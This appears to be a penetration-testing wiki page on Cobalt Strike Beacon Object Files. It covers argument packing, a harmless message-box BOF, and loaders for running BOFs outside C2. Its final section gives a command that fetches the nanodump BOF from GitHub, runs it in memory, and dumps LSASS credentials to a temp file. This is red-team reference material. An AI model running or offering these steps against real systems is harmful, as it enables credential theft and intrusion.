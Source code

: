 ```yaml
---
description: Beacon Object Files / Common Object File Format
---
```


# BOF / COFF

- [https://www.trustedsec.com/blog/operators-guide-to-the-meterpreter-bofloader/](https://www.trustedsec.com/blog/operators-guide-to-the-meterpreter-bofloader/)
- [https://securityintelligence.com/posts/how-to-hide-beacon-during-bof-execution/](https://securityintelligence.com/posts/how-to-hide-beacon-during-bof-execution/)
- [https://github.com/xforcered/bofmask](https://github.com/xforcered/bofmask)
- [[PDF] Microsoft Portable Executable and Common Object File Format Specification (Microsoft Corporation)](https://courses.cs.washington.edu/courses/cse378/03wi/lectures/LinkerFiles/coff.pdf)

Argument types for [bof_pack](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#bof_pack):

| **Type** | **Description**                  | **Unpack With (C)**          |
|----------|----------------------------------|------------------------------|
| b        | binary data                      | BeaconDataExtract            |
| i        | 4-byte integer                   | BeaconDataInt                |
| s        | 2-byte short integer             | BeaconDataShort              |
| z        | zero-terminated+encoded string   | BeaconDataExtract            |
| Z        | zero-terminated wide-char string | (wchar_t \*)BeaconDataExtract |

A basic BOF example:

{% tabs %}
{% tab title="BOF" %}
{% code title="msgbox.c" %}
```c
// wget https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/beacon.h
// x86_64-w64-mingw32-gcc -c msgbox.c -o msgbox.o

#include <windows.h>
#include "beacon.h"

void go(char* args, int alen)
{
    DECLSPEC_IMPORT INT WINAPI USER32$MessageBoxA(HWND, LPCSTR, LPCSTR, UINT);

    datap parser;
    BeaconDataParse(&parser, args, alen);

    char* message;
    message = BeaconDataExtract(&parser, NULL);

    USER32$MessageBoxA(NULL, message, "Hello from BOF!", 0);
}
```
{% endcode %}
{% endtab %}
{% tab title="Aggressor" %}
{% code title="msgbox.cna" %}
```
alias msgbox {
    local('$handle $bof $args');

    # Read the bof file
    $handle = openf(script_resource("msgbox.o"));
    $bof = readb($handle, -1);
    closef($handle);

    # Pack args
    $args = bof_pack($1, "z", $2);
    
    # Print task to console
    btask($1, "Running MessageBoxA BOF");
    
    # Execute BOF
    beacon_inline_execute($1, $bof, "go", $args);
}

beacon_command_register("msgbox", "Pops a message box", "Calls the MessageBoxA Win32 API");
```
{% endcode %}
{% endtab %}
{% endtabs %}




## Run BOFs outside of C2

- [https://www.trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs/](https://www.trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs/)
- [https://github.com/trustedsec/COFFLoader](https://github.com/trustedsec/COFFLoader)
- [https://skyblue.team/posts/invoke-bof/](https://skyblue.team/posts/invoke-bof/)
- [https://github.com/airbus-cert/Invoke-Bof](https://github.com/airbus-cert/Invoke-Bof)
- [https://github.com/Cracked5pider/CoffeeLdr](https://github.com/Cracked5pider/CoffeeLdr)
- [https://github.com/frkngksl/NiCOFF](https://github.com/frkngksl/NiCOFF)
- [https://github.com/trustedsec/CS_COFFLoader](https://github.com/trustedsec/CS_COFFLoader)



### RunOF

- [https://labs.nettitude.com/blog/introducing-runof-arbitrary-bof-tool/](https://labs.nettitude.com/blog/introducing-runof-arbitrary-bof-tool/)
- [https://github.com/nettitude/RunOF](https://github.com/nettitude/RunOF)

An example of running the [nanodump.x64.o](https://github.com/helpsystems/nanodump/blob/main/dist/nanodump.x64.o) BOF via RunOF [fork](https://github.com/snovvcrash/RunOF) from memory:

- Compile RunOF.exe assembly and convert it to a PowerShell invoker (see [.NET Reflective Assembly](/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly.md))
- Search for argument types that the target BOF uses (usually located in accompanying Aggressor scripts):

```
curl -sSL 'https://github.com/helpsystems/nanodump/raw/main/'`curl -sSL 'https://api.github.com/repos/helpsystems/nanodump/git/trees/main?recursive=1' | jq -r '.tree[] | select(.path | endswith(".cna")) | .path'` | grep bof_pack
    $args = bof_pack($1, "iziiiiiiiziiz", $pid, $dump_path, $write_file, $use_valid_sig, $fork, $snapshot, $dup, $get_pid, $use_malseclogon, $binary_path, $use_malseclogon_race, $use_werfault, $werfault_lsass);
    $args = bof_pack($1, "ziiiiizb", $dump_path, $use_valid_sig, $fork, $snapshot, $dup, $use_malseclogon, $binary_path, $dll);
    $args = bof_pack($1, "z", $ssp_path);
    $args = bof_pack($1, "z", $2);
```

- Load the invoker into memory, fetch the BOF (`-u` option) and run it providing necessary arguments with their types like this:

```
PS > Invoke-RunOF -u https://github.com/helpsystems/nanodump/raw/main/dist/nanodump.x64.o '-i:0' '-z:C:\Windows\Temp\lsass.bin' '-i:1' '-i:1' '-i:0' '-i:0' '-i:0' '-i:0' '-i:0' '-z:' '-i:0' '-z:'
```
